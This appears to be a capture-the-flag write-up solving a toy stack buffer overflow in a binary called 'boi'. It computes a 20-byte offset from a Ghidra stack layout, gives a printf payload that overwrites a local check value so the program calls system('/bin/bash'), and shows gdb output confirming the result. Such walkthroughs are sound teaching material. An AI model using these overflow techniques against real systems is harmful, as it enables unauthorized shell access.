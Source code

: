 # Soln

There's a buffer overflow in this simple program.

`read` reads in 24 bytes from the user into local variable `local_38`,
but `local_38`:

```c
read(0,&local_38,24)
```

The program calls `system("/bin/bash")` if `iStack_24` is `xcaf3baee`. But, `iStack_24`
is initialised as `xdeadbeef`, and there's no normal execution path to change it.

Ghidra shows us the distance between `local_38` (`input`) and `iStack_24` (`target`):

```c
undefined4        Stack[-0x24]:4 target
                                              <- (pad   0x28 - 0x24):4
undefined8        Stack[-0x30]:8 local_30
undefined8        Stack[-0x38]:8 input
```

So, `0x38-0x24=0x14` (20). That is, 20 bytes of input brings us to `target` and then 4 bytes
overwrites `target`.

`read` will accept 24 bytes.

Generate a payload that overwrites `iStack_24` with `0xcaf3baee`:

```sh
printf  "AAAAAAAABBBBBBBBCCCC\xee\xba\xf3\xca" > in
```

Run program and supply payload on stdin:

```sh
gdb ./boi`

start < in
break system
c
```

And we break in `system`:

```sh
 ► 0   0x7ffff7c53b00 system
   1         0x40063e run_cmd+24
   2         0x4006b9 main+120
   3   0x7ffff7c27675 __libc_start_call_main+117
   4   0x7ffff7c27729 __libc_start_main+137
   5         0x400559 _start+41
```
